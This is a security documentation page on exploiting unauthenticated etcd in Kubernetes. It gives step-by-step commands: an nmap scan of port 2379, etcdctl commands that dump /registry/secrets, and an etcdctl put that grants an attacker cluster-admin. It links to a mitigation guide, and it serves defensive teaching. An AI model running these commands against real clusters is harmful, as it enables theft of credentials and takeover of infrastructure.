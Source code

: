 ```yaml
---
sidebar_position: 11
title: "Unrestricted etcd Access"
description: "How attackers exploit unrestricted access to etcd to retrieve Kubernetes secrets and take control of the cluster."
---
```


# Unrestricted etcd Access

**etcd** is the **key-value store** used by Kubernetes to store **configuration data, secrets, and cluster state**. If **unrestricted access** is allowed, attackers can retrieve sensitive information, escalate privileges, and take full control of the cluster.

---

## Exploitation Steps: Extracting Secrets from etcd

An attacker gains access to an **unprotected etcd instance** and extracts sensitive Kubernetes data.

### Step 1: Scan for Open etcd Endpoints

The attacker checks for an **exposed etcd API** on port **2379**:

```bash
nmap -p 2379 --open <cluster-ip-range>
```

If an open etcd instance is found, the attacker proceeds.

### Step 2: Query etcd for Cluster Data

If authentication is not enforced, the attacker directly queries etcd for Kubernetes secrets:

```bash
ETCDCTL_API=3 etcdctl --endpoints=<etcd-ip>:2379 get / --prefix --keys-only
```

### Step 3: Extract Kubernetes Secrets

The attacker retrieves stored credentials, service tokens, and API keys:

```bash
ETCDCTL_API=3 etcdctl --endpoints=<etcd-ip>:2379 get /registry/secrets --prefix
```

If etcd stores **admin credentials**, the attacker gains **full cluster control**.

### Step 4: Modify Cluster Configuration

If write access is enabled, the attacker modifies **Kubernetes RBAC settings** to escalate privileges:

```bash
ETCDCTL_API=3 etcdctl --endpoints=<etcd-ip>:2379 put /registry/rbac/rolebindings/cluster-admin '{"user": "attacker", "role": "cluster-admin"}'
```

### Result

The attacker has **complete control over Kubernetes**, allowing them to **modify workloads, access secrets, and delete cluster resources**.

---

## Mitigation Steps

To protect against **unrestricted etcd access**, follow the security best practices outlined in:

➡ **[Securing etcd in Kubernetes](/docs/best_practices/cluster_setup_and_hardening/control_plane_security/etcd_security_mitigation)**

This guide covers techniques such as **enforcing TLS encryption, restricting access with RBAC, securing backups, and isolating etcd from untrusted networks** to prevent unauthorized access.
